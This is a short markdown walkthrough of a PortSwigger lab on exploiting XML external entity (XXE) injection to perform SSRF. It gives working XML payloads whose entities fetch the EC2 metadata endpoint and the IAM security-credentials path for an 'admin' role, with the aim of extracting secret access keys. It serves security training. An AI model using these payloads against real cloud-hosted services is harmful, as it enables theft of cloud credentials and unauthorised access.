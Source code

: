 # Exploiting XXE to perform SSRF attacks

## This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

## The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is `http://169.254.169.254/`. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.

## To solve the lab, exploit the [XXE](https://portswigger.net/web-security/xxe) vulnerability to perform an [SSRF attack](https://portswigger.net/web-security/ssrf) that obtains the server's IAM secret access key from the EC2 metadata endpoint.

---

### step 1

```xml

<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>

```

### step2

add `http://169.254.169.254/`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254"> ]>
<stockCheck><productId>
&xxe;
</productId><storeId>&xxe;</storeId></stockCheck>
```

![screenshot](./images/lab2_part1.png)

![screenshot](./images/lab2_part2.png)

![screenshot](./images/lab2_part3.png)

![screenshot](./images/lab2_part4.png)

![screenshot](./images/lab2_part5.png)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck><productId>
&xxe;
</productId><storeId>&xxe;</storeId></stockCheck>
```

![screenshot](./images/lab2_part6.png)
